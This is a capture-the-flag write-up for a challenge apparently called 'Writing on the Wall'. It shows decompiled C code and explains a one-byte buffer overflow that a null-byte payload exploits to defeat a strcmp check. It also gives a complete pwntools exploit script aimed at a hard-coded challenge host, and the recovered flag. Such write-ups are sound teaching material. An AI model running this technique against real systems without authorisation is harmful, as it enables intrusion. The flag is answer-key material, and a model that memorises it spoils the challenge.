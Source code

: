 # Writing on the Wall

As you approach a password-protected door, a sense of uncertainty envelops you—no clues, no hints. Yet, just as confusion takes hold, your gaze locks onto cryptic markings adorning the nearby wall. Could this be the elusive password, waiting to unveil the door's secrets?

## Writeup

The main function of the code is this:

```c
undefined8 main(void)

{
  int check;
  long in_FS_OFFSET;
  char buffer [6];
  undefined8 target;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  target = 0x2073736170743377;
  read(0,buffer,7);
  check = strcmp(buffer,(char *)&target);
  if (check == 0) {
    open_door();
  }
  else {
    error("You activated the alarm! Troops are coming your way, RUN!\n");
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

We need to set the **buffer** and the **target** equal, but our buffer is only of **6** chars and the target is long **8** chars.

The overflow is of **one** only byte, so we can send **\0** to terminate the string and make it equal.

This will be our payload:

```
\0AAAAA\0
```

The final exploit will be:

```python
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'writing_on_the_wall')
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
if args['LOCAL']:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False) # Can be found via $ ldd exe
else:
    libc = ELF('glibc/libc.so.6', checksec=False)

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or '94.237.53.26'
port = int(args.PORT or 41230)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()

payload = b'\0AAAAA\0'

io.sendlineafter(b'>>', payload)

io.interactive()
```

The flag is:

```
You managed to open the door! Here is the password for the next one: HTB{3v3ryth1ng_15_r34d4bl3}
```